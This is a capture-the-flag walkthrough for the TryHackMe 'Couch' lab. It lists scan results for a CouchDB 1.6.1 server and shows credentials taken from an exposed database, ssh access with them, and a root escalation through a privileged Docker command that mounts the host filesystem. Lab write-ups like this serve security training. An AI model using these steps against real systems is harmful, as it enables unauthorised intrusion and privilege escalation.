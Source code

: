 ```yaml
---
title: Walkthrough - Couch
published: true
---
```


Web, Docket, Linux, CouchDB.

[https://tryhackme.com/room/couch](https://tryhackme.com/room/couch)

* * *

## Scan the machine. How many ports are open?

``
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What is the database management system installed on the server?

``
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
``

* * *

## What port is the database management system running on?

- 5984

* * *

## What is the version of the management system installed on the server?

- 1.6.1

* * *

## What is the path for the web administration tool for this database management system?

- found this by running `feroxbuster` as gobuster was givin me too many errors

* * *

## What is the path to list all databases in the web browser of the database management system?

- `_all_dbs`

* * *

## What are the credentials found in the web administration tool?

- `inside the secret db - atena:t4qfzcc4qN## `

* * *

## Compromise the machine and locate user.txt

- ssh in with the creds

* * *

## Escalate privileges and obtain root.txt

- check `.bash_history` and run `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
- cat `/root/root.txt`

![0xskar](/assets/couch01.png)

* * * 

